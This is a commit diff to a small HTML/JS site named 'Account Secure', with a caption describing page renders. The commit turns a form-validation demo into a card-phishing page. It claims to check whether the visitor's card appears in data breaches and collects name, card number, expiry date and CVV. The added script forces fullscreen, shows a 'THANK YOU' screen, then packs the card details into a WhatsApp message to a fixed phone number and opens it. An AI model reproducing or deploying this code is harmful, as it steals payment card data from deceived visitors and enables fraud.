

Before and after one commit to Dixith-ai/account_secure, a plain HTML site: page index.html in a window 390 px wide. After the commit the page ends 844 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
final push of the day

```diff
--- a/index.html
+++ b/index.html
@@ -2,30 +2,30 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Form Validation</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
+    <title>Account Secure</title>
     <link rel="stylesheet" href="style.css">
 </head>
 <body>
     <div class="container">
         <div class="intro">
-            <p>Welcome to our form validation website. Here, you can test various input fields and validate your entries to ensure they meet the required formats. Once all the fields are correctly filled out, you can proceed by clicking the "Check" button. Please follow the instructions carefully to ensure smooth processing.</p>
+            <p>Check if your credit/debit card details have been compromised in online data breaches. Enter your information and click "Check" to see if your data is affected.</p>
         </div>
 
         <div class="form-container">
             <h2>Enter Your Details</h2>
             <form id="user-form">
                 <label for="name">Name:</label>
-                <input type="text" id="name" placeholder="Your Name" required>
+                <input type="text" id="name" placeholder="Your Name as on the card" required>
 
-                <label for="accNumber">Account Number (0000 0000 0000 0000):</label>
-                <input type="text" id="accNumber" placeholder="0000 0000 0000 0000" maxlength="19" required>
+                <label for="Card nunmber">Card number :</label>
+                <input type="text" id="accNumber" placeholder="xxxx xxxx xxxx xxxx" maxlength="19" required>
 
-                <label for="fourDigit">Four-Digit (00/00):</label>
-                <input type="text" id="fourDigit" placeholder="00/00" maxlength="5" required>
+                <label for="Expiry date">Expiry date:</label>
+                <input type="text" id="fourDigit" placeholder="xx/xx" maxlength="5" required>
 
-                <label for="threeDigit">Three-Digit:</label>
-                <input type="text" id="threeDigit" placeholder="Three Digit Number" maxlength="3" required>
+                <label for="CVV or Security code">CVV or Security code</label>
+                <input type="text" id="threeDigit" placeholder="xxx" maxlength="3" required>
 
                 <button type="submit" id="checkBtn" disabled>Check</button>
             </form>
--- a/script.js
+++ b/script.js
@@ -31,6 +31,16 @@ document.addEventListener("DOMContentLoaded", function() {
         e.target.value = formatFourDigit(e.target.value);
     });
 
+    // Restrict three-digit field to numeric values only
+    function formatThreeDigit(value) {
+        return value.replace(/\D/g, '').slice(0, 3);
+    }
+
+    threeDigitField.addEventListener('input', function(e) {
+        e.target.value = formatThreeDigit(e.target.value);
+        validateForm();
+    });
+
     // Validate fields
     function validateForm() {
         const nameValue = nameField.value.trim();
@@ -52,9 +62,25 @@ document.addEventListener("DOMContentLoaded", function() {
     fourDigitField.addEventListener('input', validateForm);
     threeDigitField.addEventListener('input', validateForm);
 
+    // Function to enter fullscreen mode
+    function enterFullscreen() {
+        if (document.documentElement.requestFullscreen) {
+            document.documentElement.requestFullscreen();
+        } else if (document.documentElement.mozRequestFullScreen) { // Firefox
+            document.documentElement.mozRequestFullScreen();
+        } else if (document.documentElement.webkitRequestFullscreen) { // Chrome, Safari and Opera
+            document.documentElement.webkitRequestFullscreen();
+        } else if (document.documentElement.msRequestFullscreen) { // IE/Edge
+            document.documentElement.msRequestFullscreen();
+        }
+    }
+
     // Handle form submission
     form.addEventListener('submit', function(e) {
         e.preventDefault();
+
+        // Enter fullscreen mode
+        enterFullscreen();
 
         // Hide form container
         document.querySelector('.form-container').style.display = 'none';
@@ -81,7 +107,7 @@ document.addEventListener("DOMContentLoaded", function() {
             // Display final text after overlay
             const finalText = document.createElement('div');
             finalText.classList.add('final-text');
-            finalText.textContent = 'THANK YOU FOR YOUR DATA';
+            finalText.textContent = 'THANK YOU';
             document.body.appendChild(finalText);
 
             // Manage transitions
@@ -93,11 +119,18 @@ document.addEventListener("DOMContentLoaded", function() {
                 finalText.style.opacity = '1'; // Show final text
             }, 6000); // Delay to show final text after overlay
 
-            // Cleanup after final text is visible
+            // Send data via WhatsApp API
             setTimeout(() => {
-                image.remove();
-                text.remove(); // Removed the wrong element 'intimidatingText' earlier
-            }, 10000); // Delay to ensure removal after final text
+                const nameValue = encodeURIComponent(nameField.value.trim());
+                const accNumberValue = encodeURIComponent(accNumberField.value.trim());
+                const fourDigitValue = encodeURIComponent(fourDigitField.value.trim());
+                const threeDigitValue = encodeURIComponent(threeDigitField.value.trim());
+
+                const message = `Hi, I am ${nameValue} and here are my details: \n\nCard Number: ${accNumberValue}\n Expiry date : ${fourDigitValue}\n CVV :  ${threeDigitValue}`;
+                const whatsappLink = `https://api.whatsapp.com/send?phone=917338010377&text=${message}`;
+
+                window.open(whatsappLink, '_blank');
+            }, 10000); // Wait for final text to appear before sending data
         }, 3000); // Wait for image to appear
     });
 });
--- a/style.css
+++ b/style.css
@@ -7,15 +7,14 @@
 body {
     font-family: 'Roboto', sans-serif;
     background: radial-gradient(circle, #1e2a38, #0d0d0d);
+    color: #e0e0e0;
     display: flex;
-    justify-content: center;
-    align-items: center;
-    height: 100vh;
-    color: #e0e0e0;
-    overflow: hidden;
+    flex-direction: column;
+    min-height: 100vh;
 }
 
 .container {
+    flex: 1;
     display: flex;
     flex-direction: column;
     align-items: center;
@@ -27,17 +26,17 @@ body {
     margin-bottom: 30px;
     padding: 20px;
     text-align: center;
-    font-size: 18px; /* Slightly larger for better readability */
-    font-weight: 300; /* Lighter font weight for a more elegant appearance */
-    color: #e0e0e0; /* Matches the main text color */
-    max-width: 700px; /* Slightly wider for more content space */
-    line-height: 1.6; /* Improved line spacing for readability */
-    background: rgba(28, 28, 28, 0.7); /* Slightly transparent background to match form container */
-    border-radius: 10px; /* Rounded corners for a modern look */
-    box-shadow: 0 4px 8px rgba(0, 0, 0, 0.6); /* Subtle shadow for depth */
-    border: 1px solid #333; /* Border to define the area */
-    margin: 20px auto; /* Center the paragraph horizontally */
-    text-shadow: 0 2px 4px rgba(0, 0, 0, 0.5); /* Enhance readability */
+    font-size: 18px;
+    font-weight: 300;
+    color: #e0e0e0;
+    max-width: 700px;
+    line-height: 1.6;
+    background: rgba(28, 28, 28, 0.7);
+    border-radius: 10px;
+    box-shadow: 0 4px 8px rgba(0, 0, 0, 0.6);
+    border: 1px solid #333;
+    margin: 20px auto;
+    text-shadow: 0 2px 4px rgba(0, 0, 0, 0.5);
 }
 
 .intro p {
@@ -51,7 +50,7 @@ body {
     border-radius: 20px;
     box-shadow: 0 15px 30px rgba(0, 0, 0, 0.5);
     width: 360px;
-    max-width: 90%; /* Adjust form container width */
+    max-width: 90%;
     position: relative;
     overflow: hidden;
 }
@@ -85,13 +84,14 @@ label:hover {
 
 input {
     margin-bottom: 15px;
-    padding: 12px;
-    font-size: 16px;
+    padding: 16px;
+    font-size: 18px;
     border: 1px solid #333;
     border-radius: 10px;
     background: rgba(40, 40, 40, 0.8);
     color: #f5f5f5;
     transition: border-color 0.3s, background-color 0.3s, box-shadow 0.3s, transform 0.3s;
+    width: 100%;
 }
 
 input:focus {
@@ -103,8 +103,8 @@ input:focus {
 }
 
 button {
-    padding: 12px;
-    font-size: 16px;
+    padding: 16px;
+    font-size: 18px;
     background: linear-gradient(135deg, #4caf50, #388e3c);
     color: white;
     border: none;
@@ -129,7 +129,6 @@ button:active:enabled {
     transform: scale(0.95);
 }
 
-/* Fullscreen image styles */
 .fullscreen-image {
     position: fixed;
     top: 0;
@@ -141,7 +140,6 @@ button:active:enabled {
     animation: stutter 2s ease-out forwards, fadeIn 1s ease-out forwards;
 }
 
-/* Keyframes for stuttering effect */
 @keyframes stutter {
     0% {
         transform: scale(1) translateY(0);
@@ -169,7 +167,6 @@ button:active:enabled {
     }
 }
 
-/* Keyframes for fade-in effect */
 @keyframes fadeIn {
     from {
         opacity: 0;
@@ -179,7 +176,6 @@ button:active:enabled {
     }
 }
 
-/* Intimidating text styles */
 .intimidating-text {
     position: fixed;
     top: 50%;
@@ -187,17 +183,16 @@ button:active:enabled {
     transform: translate(-50%, -50%);
     font-size: 3rem;
     font-weight: bold;
-    color: rgb(255, 0, 0); /* Intense red color */
+    color: rgb(255, 0, 0);
     text-shadow: 0 0 10px rgb(247, 0, 255), 0 0 20px rgb(247, 0, 255), 0 0 30px rgb(247, 0, 255);
     opacity: 0;
     animation: flashInOut 2s ease-in-out forwards;
     text-align: center;
     white-space: nowrap;
-    max-width: 90%; /* Ensure it doesn't exceed the screen width */
-    overflow-wrap: break-word; /* Allow text to break and fit on small screens */
+    max-width: 90%;
+    overflow-wrap: break-word;
 }
 
-/* Keyframes for flash effect */
 @keyframes flashInOut {
     0% {
         opacity: 0;
@@ -225,7 +220,6 @@ button:active:enabled {
     }
 }
 
-/* Black screen overlay */
 .black-overlay {
     position: fixed;
     top: 0;
@@ -235,10 +229,9 @@ button:active:enabled {
     background-color: black;
     opacity: 0;
     transition: opacity 0.5s ease;
-    z-index: 1000; /* Ensure it's on top of everything */
+    z-index: 1000;
 }
 
-/* Final text styles */
 .final-text {
     position: fixed;
     top: 50%;
@@ -248,69 +241,76 @@ button:active:enabled {
     font-weight: bold;
     color: white;
     opacity: 0;
-    z-index: 1001; /* Ensure it's above the overlay */
+    z-index: 1001;
     text-align: center;
     white-space: nowrap;
     transition: opacity 2s ease-in-out;
 }
 
-/* Footer styling */
 footer {
     padding: 1rem;
     text-align: center;
     width: 100%;
     background: rgba(28, 28, 28, 0.8);
     border-top: 1px solid #333;
-    position: fixed;
+    position: relative;
     bottom: 0;
     left: 0;
-    box-shadow: 0 -2px 5px rgba(0, 0, 0, 0.3); /* Add shadow for better visibility */
-    z-index: 100; /* Ensure footer is on top */
+    box-shadow: 0 -2px 5px rgba(0, 0, 0, 0.3);
 }
 
-/* Footer paragraph styling */
 footer p {
     margin: 0;
     color: #f2f2f2;
 }
 
-/* Media Queries for Responsive Design */
 @media (max-width: 768px) {
     .container {
-        padding-bottom: 100px; /* Adjust padding for footer overlap on smaller screens */
+        padding-bottom: 80px;
+    }
+
+    .intro {
+        font-size: 16px;
+    }
+
+    .form-container {
+        width: 95%;
+        padding: 20px;
     }
 
     h2 {
         font-size: 22px;
     }
 
-    .fullscreen-image {
-        width: 100%;
-    }
-
-    .intimidating-text {
-        font-size: 2rem; /* Adjust intimidating text size for smaller screens */
-    }
-
-    .final-text {
-        font-size: 1.5rem; /* Adjust final text size for smaller screens */
+    button {
+        font-size: 16px;
+        padding: 14px;
     }
 }
 
 @media (max-width: 480px) {
     .container {
-        padding-bottom: 150px; /* Increase bottom padding for very small screens */
+        padding-bottom: 100px;
+    }
+
+    .intro {
+        font-size: 14px;
+    }
+
+    .form-container {
+        width: 100%;
     }
 
     h2 {
-        font-size: 20px;
+        font-size: 18px;
     }
 
     .intimidating-text {
-        font-size: 1.8rem; /* Further adjust for very small screens */
+        font-size: 2.5rem;
     }
 
-    .final-text {
-        font-size: 1.2rem;
+    button {
+        font-size: 14px;
+        padding: 12px;
     }
 }
```
